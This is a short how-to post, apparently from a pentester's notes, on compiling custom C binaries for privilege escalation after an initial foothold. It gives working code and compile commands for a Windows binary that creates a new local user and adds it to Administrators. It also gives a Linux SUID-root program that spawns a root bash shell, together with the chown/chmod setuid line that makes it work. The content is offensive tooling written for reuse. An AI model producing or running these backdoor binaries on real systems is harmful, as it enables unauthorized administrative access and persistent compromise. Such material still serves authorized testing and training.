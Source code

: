 ```yaml
---
title: Compiling Custom Binaries
date_created: 2021-07-31
date_updated: 
metadata: howto
---
```

# Compiling Custom Binaries

I created this post to address situations wherein a direct `msfvenom` reverse shell may be cumbersome to use. These binaries will provide other ways to obtain an escalated shell after an initial foothold.

Additionally, these privilege escalation paths should make it easier to reexploit compared to juggling listeners and reverse shells.

## Dependencies and Compiling

These binaries will be compiled on a Kali system -  this should work on other Debian-based distributions like Ubuntu provided the packages are available.

```bash
sudo apt install gcc mingw-w64
```

Generally compiling with follow the following patterns but may vary depending on the imported libraries.

1. Windows

	```bash
	i686-w64-mingw32-gcc code.c -l ws2_32 -o code.exe
	```
	
	Base code:
	
	```bash
	#include <stdio.h>
	#include <stdlib.h>

	int main(void){
		 system("whoami");
		 return 0;
		 }
	```

2. Linux

	```bash
	gcc code.c -o code
	```
	
	Base code:
	
	```bash
	#include <stdio.h>
	#include <stdlib.h>

	int main(void){
		system("whoami");
	}
	```

## Useful Examples

### Windows - Add New User to Administrators group

Have this binary be executed with escalated priviliges.

```bash
#include <stdio.h>
#include <stdlib.h>

int main(void){
     system("net user username password /add");
     system("net localgroup Administrators username /add");
     return 0;
     }
```

### Linux - Elevate Bash Shell

The binary needs to have the SetUID bit and be owned by root to have it be executed with escalated privileges. This can be done using the following snippet:

```bash
chown root.root /tmp/rootme; chmod +sx /tmp/rootme
```

```bash
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

int main(void){
	setuid(0); setgid(0); system("/bin/bash");
}
```